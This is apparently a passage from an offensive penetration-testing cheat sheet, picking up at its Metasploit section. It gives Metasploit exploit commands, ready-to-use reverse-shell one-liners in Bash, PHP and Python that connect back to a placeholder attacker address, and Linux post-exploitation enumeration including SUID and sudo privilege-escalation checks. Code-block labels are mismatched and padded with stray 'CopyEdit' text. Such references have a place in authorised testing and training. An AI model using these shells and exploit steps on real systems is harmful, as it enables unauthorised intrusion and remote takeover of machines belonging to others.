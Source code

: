 ### 3.1 Metasploit

```
sql
CopyEdit
# Search & use module
search <service>
use exploit/<path>
set RHOSTS $TARGET
set LHOST <your_ip>
exploit

```

### 3.2 Manual Reverse Shells

**Bash TCP**

```
php-template
CopyEdit
bash -i >& /dev/tcp/<your_ip>/<port> 0>&1

```

**PHP**

```
swift
CopyEdit
php -r '$sock=fsockopen("<your_ip>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'

```

**Python**

```
rust
CopyEdit
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("<your_ip>",<port>));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'

```

---

## 4️⃣ Post-Exploitation – Enumeration

### 4.1 Linux

```
bash
CopyEdit
# System info
uname -a
lsb_release -a
id
whoami

# Priv esc checks
find / -perm -4000 2>/dev/null
sudo -l

```
